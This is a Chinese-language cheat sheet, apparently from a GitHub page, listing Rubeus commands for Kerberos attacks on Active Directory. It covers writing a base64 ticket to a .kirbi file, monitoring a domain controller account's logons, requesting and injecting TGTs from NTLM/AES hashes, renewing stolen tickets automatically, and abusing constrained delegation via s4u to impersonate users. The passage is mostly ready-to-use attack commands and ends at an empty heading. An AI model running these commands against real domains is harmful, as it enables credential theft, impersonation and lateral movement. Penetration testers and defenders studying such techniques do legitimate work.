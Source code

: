 
理论部分参考[这篇文章](https://www.anquanke.com/post/id/161781)

# base64转成票据（PS操作）

```
[IO.File]::WriteAllBytes("C:\Users\Administrator\desktop\nlamb.kirbi", [Convert]::FromBase64String("doIFZzC..."))
```


# 监听流量认证
```
Rubeus.exe monitor /targetuser:US-DC$ /interval:5 /nowrap
```

# asktgt

## 根据哈希请求票据

可以是rc4_hmac (/rc4) 或者 aes256_cts_hmac_sha1 (/aes256) hash

```
Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt
```


## renew

大多数域默认的 Kerberos 策略为 TGT 提供10小时的生命期，并具有7天的续订窗口.

如果你有一个在10小时的有效生命期内的 .kirbi 文件（或者对应的Rubeus base64 blob），并且还在7天的续订窗口期内，就可以使用 Kekeo 或者 Rubeus 来续订 TGT ，从而重启10个小时的窗口期，延长票据的有效生命期

```
Rubeus.exe renew /ticket:doIFmjCC...(snip)...
```

如果你想要票据在到达续订窗口之前能够自动续订，只需使用 /autorenew 参数

```
Rubeus.exe renew /ticket:doIFFj...(snip)... /autorenew
```


# s4u

滥用此 TTP 的方法，首先需要配置了限制委派的账户的有效 TGT/KRB-CRED 文件。使用此账户的 NTML/RC4 或 aes256_cts_hmac_sha1 哈希，利用 asktgt 功能即可获取这个文件。然后在 s4u 操作中，使用 /ticket 参数指定此票据文件（base64编码的blob 或者是磁盘上的一个票据文件），以及必需的 /impersonateuser:X 参数来指定要仿冒的账户， /msdsspn:SERVICE/SERVER 参数来指定账户的 msds-allowedToDelegateTo 字段中配置的 SPN 。而 /dc 和 /ptt 参数的功能与之前的操作相同


## /altservice
